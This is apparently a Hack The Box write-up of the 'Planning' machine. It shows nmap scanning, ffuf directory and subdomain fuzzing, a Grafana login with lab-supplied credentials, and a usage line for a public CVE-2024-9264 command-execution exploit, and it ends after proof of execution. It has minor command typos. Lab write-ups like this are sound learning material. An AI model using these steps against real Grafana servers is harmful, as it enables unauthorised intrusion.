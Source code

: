 # Machine Overview

![image](https://github.com/user-attachments/assets/0180991b-c8c3-4f71-a64f-af3461207fe0)

## Given credentials

As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r

# Nmap

Command used: nmap -sC -sV -Pn -oN Planning_nmap.txt 10.10.11.68

![image](https://github.com/user-attachments/assets/84ebbdb6-24a2-4c45-bebc-ac37d19e0e5b)

Found two open ports: 22(SSH), 80(http)

port 80 redirects to http://planning.htb. Add plaaning.htb to /etc/hosts

Looking at the site nothing special in it

![image](https://github.com/user-attachments/assets/564713d3-9ae5-41a1-bcf1-1d8eb49a1582)

# Enumeration

## Fuzzing with ffuf for directory listing 

Command used: ffuf -w /usr/share/wordlists/dirbuster/directory-listing-2.3-medium.txt -u http://planning.htb/FUZZ -t 100 

![image](https://github.com/user-attachments/assets/a80ee0b8-6c09-4111-8386-5a748a1a1dc6)

Looking at the site every url endpoint end in .php trying to enumerate further with ffuf with .php extension

Command used: ffuf -w /usr/share/wordlists/dirbuster/directory-listing-2.3-medium.txt -u http://planning.htb/FUZZ.php -t 100

Still nothing was found

## Fuzzing with ffuf for subdomains

Command used: ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.planning.htb" -u http://planning.htb -t 100 -fc 301

![image](https://github.com/user-attachments/assets/1273a23f-a1fc-4bef-8372-d7eda2c08e47)

Found grafana subdomain. Add grafana.planning.htb to /etc/hosts. Looking at the site there is login form, tried using given credentials to login

![image](https://github.com/user-attachments/assets/cc970d42-e085-40c2-bf8e-2c1356410f17)

From login page i can see grafana version, seeing into it to check if it is vulnerable version or not. Found this [exploit](https://github.com/nollium/CVE-2024-9264) CVE-2024-9264

# CVE overview 

install requirements:

```
pip install requirements.txt
```

Usage:

Command execution (v11.0.0 only)

```
python3 cve.py -u [username] -p [password] -c [shell command] http://10.10.10.10:3030
```

# Exploit

Trying to use CVE-2024-9264 i ran id and pwd commands to see prove of it's work

![image](https://github.com/user-attachments/assets/c7efb8f4-7394-4b6c-912f-c617228b1a20)



